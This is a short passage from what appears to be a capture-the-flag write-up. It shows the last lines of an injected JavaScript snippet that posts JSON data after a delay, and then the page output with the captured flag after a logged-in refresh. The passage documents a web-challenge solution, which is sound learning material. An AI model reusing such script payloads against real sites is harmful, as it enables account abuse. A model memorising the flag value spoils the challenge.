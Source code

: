 ```
            body: JSON.stringify(data),
        });

    }, "1000");

</script>
```
After refreshing the page on our side (while being logged-in), we can find the flag:
```
<div class="alert alert-primary" role="alert">
    Informacja zwrotna: abc<br>
    flaga: FLAG{752e8db03d875cfec6bdf8305756f1bb}
</div>
```

